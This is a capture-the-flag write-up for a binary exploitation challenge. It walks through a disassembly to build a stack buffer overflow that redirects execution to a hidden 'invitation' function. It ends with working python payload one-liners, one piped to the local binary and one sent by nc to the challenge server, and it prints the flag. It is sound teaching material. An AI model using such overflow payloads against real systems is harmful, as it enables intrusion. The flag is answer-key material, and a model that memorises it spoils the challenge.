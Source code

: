 # Party Invitation

## Question Text
There's an awesome that's going to go down next week. Gotta get the invitation!

Created by Noans

## Distribution
AwesomeParty `SHA1: a31ecb2e11a5b6762f78244f5103b424b0080b72`

## Solution
1. Players will need to do an objdump on `AwesomeParty` with the command `objdump -d AwesomeParty`.
2. The following parts of from the `objdump` should be studied:  
```
00000000004005c6 <check>:
4005c6:	55                   	push   %rbp
4005c7:	48 89 e5             	mov    %rsp,%rbp
4005ca:	48 83 ec 20          	sub    $0x20,%rsp
4005ce:	48 8d 45 e0          	lea    -0x20(%rbp),%rax
4005d2:	48 89 c6             	mov    %rax,%rsi
4005d5:	bf 0c 07 40 00       	mov    $0x40070c,%edi
4005da:	b8 00 00 00 00       	mov    $0x0,%eax
4005df:	e8 cc fe ff ff       	callq  4004b0 <__isoc99_scanf@plt>
4005e4:	bf 0f 07 40 00       	mov    $0x40070f,%edi
4005e9:	e8 a2 fe ff ff       	callq  400490 <puts@plt>
4005ee:	90                   	nop
4005ef:	c9                   	leaveq 
4005f0:	c3                   	retq
```
```
Disassembly of section .special:

000000001a1b1c1d <invitation>:
1a1b1c1d:	55                   	push   %rbp
1a1b1c1e:	48 89 e5             	mov    %rsp,%rbp
1a1b1c21:	bf 98 06 40 00       	mov    $0x400698,%edi
1a1b1c26:	e8 65 e8 24 e6       	callq  400490 <puts@plt>
1a1b1c2b:	bf c0 06 40 00       	mov    $0x4006c0,%edi
1a1b1c30:	e8 5b e8 24 e6       	callq  400490 <puts@plt>
1a1b1c35:	90                   	nop
1a1b1c36:	5d                   	pop    %rbp
1a1b1c37:	c3                   	retq 
```
3. The third line tells us 32 bytes is reserved for a variable.
4. They would also need to know that the next 8 bytes stores the `%rbp`.
5. Derive that one needs to write 40 bytes of garbage before one can overwrite the return address for the `check` function.
5. Also derive that the address of `invitation` function is `1a1b1c1d`.

Final command to exploit local program assuming machine uses little-endian:  
`python -c 'print "a" * 40 + "\x1d\x1c\x1b\x1a"' | ./AwesomeParty`

In order to get the flag, players have to pipe the output to the game server:  
`python -c 'print "a" * 40 + "\x1d\x1c\x1b\x1a"' | nc pwn.chal.gryphonctf.com 18153`

## Flag
`GCTF{4W3S0M3_L177L3_P4R7Y}`

## Recommended Reads
* https://dhavalkapil.com/blogs/Buffer-Overflow-Exploit/
* https://eli.thegreenplace.net/2011/09/06/stack-frame-layout-on-x86-64